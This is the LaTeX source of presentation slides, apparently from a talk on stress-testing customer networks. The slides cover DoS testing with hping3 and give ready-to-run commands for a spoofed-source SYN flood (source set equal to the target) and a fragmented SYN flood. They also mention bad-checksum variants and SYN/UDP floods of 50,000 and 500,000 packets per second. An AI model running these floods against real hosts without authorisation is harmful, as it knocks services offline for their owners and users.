 \documentclass[Screen16to9,17pt]{foils}
\begin{document}

Spoofed packets src=dst=target \smiley

Flooding with spoofed packet source, within hosting range, \\
may result in your {\bf single packet} returning answer to another inside network + ARP traffic

\begin{alltt}\small

-a --spoof hostname
    Use this option in order to set a fake IP  source  address,  this
    option ensures that target will not gain your real address.
\end{alltt}

\verb+hping3 -q --flood -p 80 -S -a $CUST_IP $CUST_IP+

Preferably using a test-case you know fails, to see effect

Still amazed how often this works




Using the built-in option -f for hping

\begin{alltt}\small
-f --frag
    Split  packets  in more fragments, this may be useful in order to test IP
    stacks fragmentation performance and to test if some packet filter is  so
    weak  that  can  be  passed using tiny fragments (anachronistic). Default
    {\bf 'virtual mtu' is 16 bytes}. see also --mtu option.
\end{alltt}

\begin{list1}
\item \verb+hping3 -q --flood -p 80 -S -f $CUST_IP+
\item Similar process with bad checksum and Bad fragment offset
\end{list1}



\centerline{Really does it break from 50.000 pps SYN attack?}



\centerline{Oh no 500.000 pps UDP attacks work?}

\end{document}
